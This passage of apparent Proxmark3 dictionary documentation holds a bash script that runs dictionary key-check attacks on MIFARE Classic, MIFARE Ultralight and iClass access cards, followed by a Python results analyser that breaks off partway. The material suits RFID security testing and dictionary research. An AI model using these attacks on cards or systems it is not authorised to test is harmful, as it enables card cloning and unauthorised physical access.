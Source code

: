 ## Testing Scripts

### Automated Dictionary Testing
```bash
#!/bin/bash
# test_dictionaries.sh - Test dictionary effectiveness

DICT_FILE="$1"
CARD_TYPE="$2"

if [ -z "$DICT_FILE" ] || [ -z "$CARD_TYPE" ]; then
    echo "Usage: $0 <dictionary_file> <card_type>"
    echo "Card types: mifare_classic, mifare_ultralight, iclass"
    exit 1
fi

echo "Testing dictionary: $DICT_FILE"
echo "Card type: $CARD_TYPE"

case "$CARD_TYPE" in
    "mifare_classic")
        echo "Running MIFARE Classic dictionary attack..."
        pm3 -c "hf mf chk *1 ? d $DICT_FILE" | tee test_results.log
        ;;
    "mifare_ultralight")
        echo "Running MIFARE Ultralight password test..."
        while IFS= read -r password; do
            echo "Testing password: $password"
            result=$(pm3 -c "hf mfu dump -k $password" 2>&1)
            if echo "$result" | grep -q "dump completed"; then
                echo "SUCCESS: Password $password worked!"
                break
            fi
        done < "$DICT_FILE"
        ;;
    "iclass")
        echo "Running iClass dictionary attack..."
        pm3 -c "hf iclass chk f $DICT_FILE" | tee test_results.log
        ;;
    *)
        echo "Unknown card type: $CARD_TYPE"
        exit 1
        ;;
esac

echo "Dictionary test complete"
```

### Success Rate Analysis
```python
#!/usr/bin/env python3
# success_analysis.py - Analyze dictionary success rates

import re
import json
from datetime import datetime

def analyze_test_results(log_file):
    """Analyze test results from dictionary attacks"""
    results = {
        'timestamp': datetime.now().isoformat(),
        'total_keys_tested': 0,
        'successful_keys': [],
```